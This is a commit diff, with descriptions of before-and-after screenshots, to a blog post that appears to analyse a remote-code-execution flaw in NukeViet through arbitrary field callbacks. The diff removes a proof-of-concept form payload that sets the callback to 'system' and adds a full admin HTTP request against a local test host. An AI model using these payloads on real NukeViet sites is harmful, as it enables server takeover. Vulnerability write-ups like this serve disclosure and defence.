

Before and after one commit to 0xki29/blog, a Jekyll site: the page built from _posts/2026-08-30-nukeviet-arbitrary-callback-rce.md, in a window 1280 px wide and 900 px high, scrolled down 4827 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add post: NukeViet arbitrary callback RCE analysis

````diff
--- a/_posts/2026-08-30-nukeviet-arbitrary-callback-rce.md
+++ b/_posts/2026-08-30-nukeviet-arbitrary-callback-rce.md
@@ -175,8 +175,17 @@ vì các flow này đều `require modules/users/fields.check.php`.
 
 Admin tạo field mới (`fid=0`, **không phải sửa field có sẵn**) với payload dạng:
 
-```
-save=1&fid=0&system=0&title=PoC+RCE&description=PoC&required=0&show_register=1&user_editable=1&show_profile=1&class=&field_type=textbox&field=nv_poc_rce&match_type=callback&match_callback=system&min_length=0&max_length=100&default_value=
+```http
+POST /admin/index.php?language=vi&nv=users&op=fields HTTP/1.1
+Host: 127.0.0.1:8080
+Content-Length: 456
+Origin: http://127.0.0.1:8080
+Content-Type: application/x-www-form-urlencoded
+Referer: http://127.0.0.1:8080/admin/index.php?nv=users&op=fields
+Cookie: <cookie>
+Connection: keep-alive
+
+field=0&title=PoC%2BRCE&description=PoC&show_register=1&user_editable=1&show_profile=1&field_type=textbox&class=input&editor_width=100%25&editor_height=100px&match_type=none&default_value=&min_length=0&max_length=255&number_type=1&default_value_number=0&min_number_length=0&max_number_length=1000&current_date=0&default_date=&min_date=&max_date=&choicetypes=field_choicetypes_sql&field_choice%5B1%5D=&field_choice_text%5B1%5D=&system=0&fid=&fieldid=&save=1
 ```
 
 | Tham số          | Giá trị      | Vì sao                                                                                                                                                                     |
````
